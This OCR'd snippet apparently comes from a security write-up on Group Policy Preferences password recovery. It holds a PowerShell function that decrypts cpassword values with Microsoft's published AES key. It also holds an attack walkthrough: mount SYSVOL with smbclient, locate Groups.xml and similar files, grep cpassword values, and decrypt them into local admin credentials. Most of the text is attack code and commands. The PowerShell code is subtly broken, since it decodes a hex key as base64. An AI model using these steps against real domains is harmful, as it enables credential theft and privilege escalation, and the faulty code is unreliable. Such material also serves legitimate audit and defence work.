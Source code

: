 ### PowerShell Decryption Script
```powershell
# PowerShell function to decrypt cPassword
function Decrypt-GPPPassword {
    param([string]$cpassword)
    
    # AES key released by Microsoft
    $key = [System.Convert]::FromBase64String("4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b")
    
    # Base64 decode the cpassword
    $encPassword = [System.Convert]::FromBase64String($cpassword)
    
    # Decrypt using AES
    $aes = [System.Security.Cryptography.AesCryptoServiceProvider]::new()
    $aes.Key = $key
    $aes.IV = New-Object Byte[] 16
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    
    $decryptor = $aes.CreateDecryptor()
    $decryptedBytes = $decryptor.TransformFinalBlock($encPassword, 0, $encPassword.Length)
    
    return [System.Text.Encoding]::Unicode.GetString($decryptedBytes).TrimEnd([char]0)
}

# Usage
Decrypt-GPPPassword "Ju9qmLzQeH61Nrqk/bbEB1CfOFVqOIGOUevB4wAvOng"
# Output: $uP3r5ekr1tpass
```

## Attack Scenarios

### Scenario 1: Domain Enumeration via GPP
```bash
# 1. Gain initial domain access (any domain user account)
# Example: low-privilege user from password spraying

# 2. Mount SYSVOL share to search for GPP files
smbclient //dc.domain.com/SYSVOL -U domain/user%password

# 3. Find and download GPP files
find . -name "Groups.xml" -o -name "Services.xml" -o -name "ScheduledTasks.xml"
get Policies/{GUID}/Machine/Preferences/Groups/Groups.xml

# 4. Extract cpassword values
grep "cpassword=" Groups.xml

# 5. Decrypt passwords
gpp-decrypt "encryptedPasswordString"

# Result: Local admin credentials for multiple systems
# Username: new_local_admin
# Password: $uP3r5ekr1tpass
```
